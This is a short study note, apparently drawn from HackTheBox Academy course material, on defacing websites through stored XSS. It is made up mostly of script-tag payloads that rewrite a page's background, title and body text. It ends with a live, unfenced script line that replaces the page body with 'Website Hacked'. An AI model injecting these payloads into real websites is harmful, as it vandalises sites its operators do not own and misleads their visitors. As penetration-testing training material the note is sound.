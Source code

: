 ```yaml
---
title: a-Defacing
draft: false
tags:
  - defacing
---
```

**Defacing** - Defacing a website means to change its look for anyone who visits the website. 

Hackers sometimes deface the website to claim that they had successfully hacked it. 

Stored XSS is commonly used for this.

## Defacing Elements

Three HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`


## Change Background

We can choose a certain color or use an image to change the background. 

With a color chosen:

```html
<script>document.body.style.background = "#141d2b"</script>
```

With image chose:

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Change Page Title

```html
<script>document.title = 'Page Title Changed'</script>
```

## Change Page Text

We can change the text o the specific HTML element/DOM using the `innerHTML` function:

```javascript
document.getElementById("todo").innerHTML = "New Text"
```

We can also utilize jQuery functions to achieve the same if jQuery is already imported:

```javascript
$("#todo").html('New Text');
```

Hacker group usually leave a message on the web page and leave nothing else on it. 

Below will change the entire HTML code from the main body using `innerHTML`:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

Below is the example defacing payload from Hackthebox:

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

We should minify it as such:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

<script>document.getElementsByTagName('body')[0].innerHTML = "Website Hacked"</script>